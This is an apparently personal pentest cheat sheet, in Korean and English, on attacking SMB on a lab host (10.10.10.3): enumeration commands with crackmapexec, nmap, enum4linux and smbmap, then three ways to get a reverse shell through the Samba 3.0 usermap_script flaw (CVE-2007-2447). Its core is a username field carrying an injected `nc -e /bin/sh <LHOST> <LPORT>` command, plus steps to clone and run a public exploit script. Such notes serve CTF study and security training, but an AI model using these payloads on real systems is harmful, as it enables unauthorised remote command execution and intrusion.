 SMB
#
## 1. Recon

`crackmapexec`
```
crackmapexec smb --shares 10.10.10.3 -u '' -p ''
```
![image](https://user-images.githubusercontent.com/61821641/152250555-5266158b-ac0b-4b69-a2bf-8c196d48b077.png)
#
`nmap`
```
nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse 10.10.10.3
```
![image](https://user-images.githubusercontent.com/61821641/152250787-8d6e1948-4e57-4c26-a269-7f4799f20d70.png)
#
`enum4linux` --SMB 공유를 열거
```
enum4linux <option> ip
```
options

**TAG**            **FUNCTION**

\-U             get userlist  
\-M             get machine list  
\-N             get namelist dump (different from -U and-M)  
\-S             get sharelist  
\-P             get password policy information  
\-G             get group and member list

\-a             위의 모든 것(전체 기본 열거)

![image](https://user-images.githubusercontent.com/61821641/152262411-343389d4-7b2a-4bc2-ae32-02dd91ba816d.png)
![image](https://user-images.githubusercontent.com/61821641/152262564-11c48e44-4a4a-4741-99bd-f36da66c23d3.png)
![image](https://user-images.githubusercontent.com/61821641/152262280-4726a649-9081-4023-9552-57a65bf697c7.png)
![image](https://user-images.githubusercontent.com/61821641/152262476-631087c9-f841-41cb-a2f9-7127a95d7bc7.png)
![image](https://user-images.githubusercontent.com/61821641/152262522-ae1d8656-ffe6-4a79-b0f0-58880244560e.png)
#
`smbmap`

```
smbmap -H 10.10.10.3
```
![image](https://user-images.githubusercontent.com/61821641/152289995-1adb1396-c28d-4f2c-8f31-84b340e9c7ed.png)
#
## 2. Reverse shell

```
searchsploit samba 3.0
```
![image](https://user-images.githubusercontent.com/61821641/152251312-176345ec-e2a7-4c7c-8651-6bf2ec998bf4.png)

```
cat /usr/share/exploitdb/exploits/unix/remote/16320.rb
```

![image](https://user-images.githubusercontent.com/61821641/152253552-4cabe63e-d45f-4b1d-a136-95541e369e3d.png)

![image](https://user-images.githubusercontent.com/61821641/152253655-97482bce-b39d-4c5c-bdd8-89f18a30332e.png)

위의 익스플로잇으로 리버스 셸 따기

첫번째 방법 `crackmapexec`
```
crackmapexec smb --shares <RHOST> -u './=`nohup nc -e /bin/sh <LHOST> <LPORT>`' -p ''
```


두번째 방법 [CVE-2007-2447](https://github.com/amriunix/CVE-2007-2447)

`setup`
```
pip install --user pysmb
git clone https://github.com/amriunix/CVE-2007-2447.git
cd CVE-2007-2447
```

```
python3 usermap_script.py <RHOST> <RPORT> <LHOST> <LPORT>
```

세번째 방법 `metasploit`

![image](https://user-images.githubusercontent.com/61821641/152263387-2799f21b-491c-4ba0-9a28-3761787a6ec6.png)
![image](https://user-images.githubusercontent.com/61821641/152263486-f487bd28-e61b-491d-9bd1-3d34bcfeef81.png)
![image](https://user-images.githubusercontent.com/61821641/152263535-78b93c30-99a0-4bd8-b514-63a107fe6845.png)

#
## 3. Exploit

- [CVE-2017-7494](https://www.cvedetails.com/cve/CVE-2017-7494/)
- [CVE-2007-2447](https://github.com/amriunix/CVE-2007-2447)
#